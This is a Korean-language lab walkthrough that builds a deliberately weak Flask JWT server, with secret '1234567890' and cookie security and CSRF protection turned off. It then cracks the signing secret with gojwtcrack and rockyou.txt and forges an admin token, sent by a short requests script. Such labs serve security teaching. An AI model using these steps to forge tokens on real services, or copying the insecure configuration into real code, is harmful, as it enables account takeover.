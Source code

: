 # JWT (Json Web Token)

[JWT](https://ko.wikipedia.org/wiki/JSON_%EC%9B%B9_%ED%86%A0%ED%81%B0)는 인증 및 식별하기 위한 토큰 기반 인증으로 인터넷 표준이다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [JWT crack](#JWT-crack)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.142.128           |
| python3       | 3.8.10                    |
| flask         | 2.1.2                     |
| flask-jwt-extended    | 4.4.2             |
| go            | 1.13.8 linux/amd64        |

flask를 이용하여 JWT를 생성하기 위해 관련 패키지를 설치하자.

```sh
user@user:~$ sudo apt -y install python3-pip
user@user:~$ pip3 install flask flask-jwt-extended
```

```py
from flask import Flask, jsonify
from flask_jwt_extended import JWTManager, create_access_token, get_jwt_identity, jwt_required, set_access_cookies

app = Flask(__name__)
app.config['JWT_SECRET_KEY'] = '1234567890'
app.config['JWT_COOKIE_SECURE'] = False
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False
jwt = JWTManager(app)

@app.route('/', methods=['GET'])
def GetJWT():
    username = 'user'
    access_token = create_access_token(identity=username)
    resp = jsonify({'user': username, 'token' : access_token})
    set_access_cookies(resp, access_token)
    return resp, 200

@app.route('/auth', methods=['GET'])
@jwt_required()
def auth():
    username = get_jwt_identity()
    return jsonify({'user': username}), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001, debug=False)
```

# **JWT crack**

flask서버로 접속하면 jwt 값을 확인할 수 있다.

    access_token : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE

[jwt.io](https://jwt.io/)에서 jwt를 디코딩하면 우측에 sub라는 키의 값은 user라고 나온다.

![](images/2022-07-05-21-33-24.png)

현재 secret key를 알 수 없으므로 Invalid Signature가 나온다.

golang을 설치하고 [jwt cracker](https://github.com/x1sec/gojwtcrack)를 컴파일하자.

```sh
user@user:~$ sudo apt -y install golang-go
user@user:~$ go get -u github.com/x1sec/gojwtcrack
user@user:~$ go build -o gojwtcrack go/src/github.com/x1sec/gojwtcrack/main.go
```

dictionary attack을 위한 파일을 다운 받자.

```sh
user@user:~$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

jwt값을 token.txt파일로 저장하고 secret key가 딕셔너리에 포함되어 있다면, 크랙에 성공한다.

```sh
user@user:~$ go/bin/gojwtcrack -d rockyou.txt -t token.txt
1234567890      eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE
```

이후, [jwt.io](https://jwt.io/)를 이용하여 sub의 값을 admin으로 바꾸고 secret key를 크랙의 결과 값을 넣어서 jwt를 만들자.

![](images/2022-07-05-21-41-38.png)

이후 cookie에 담아서 서버에 인증하면, user가 admin으로 변경됨을 확인할 수 있다.

```py
import requests

url = 'http://192.168.142.128:5001/auth'

admin_token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNjU3MDE2NDY4LCJleHAiOjE2NTcwMTczNjh9.JDFj3EvsSaz8YXfCUeiGxL4X74QdPbi-w2M4XVG04Fo'

cookie = {'access_token_cookie':admin_token}
req = requests.get(url=url, cookies=cookie)
print(req.text)
```